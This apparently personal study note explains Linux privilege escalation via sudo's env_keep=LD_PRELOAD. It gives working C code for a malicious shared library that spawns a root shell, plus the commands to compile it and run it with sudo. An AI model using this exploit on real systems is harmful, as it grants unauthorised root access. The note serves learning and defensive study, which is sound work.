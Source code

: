 LD= dynamic linker
this means that the shared libraries are loaded first and to exploit first we have to create a custom malicious library  
How to understand the vulnerability
`env_keep=LD_PRELOAD` is enables this means it is vulnerable to LD_PREALOAD
 
![](/Linux-Privilege-Notes/images/sudo%20-l.png)

Exploitation 
create a file called shell.c
with code

" 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}


compile it the command 
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
this will generate a .so file -> shell.so (in our case )

run the file with binaries/files with have root permissions to work with 

`sudo LD_PRELOAD=/home/user/shell.so apache2`

"

![](/Linux-Privilege-Notes/images/sudo%20ld_preload.png)
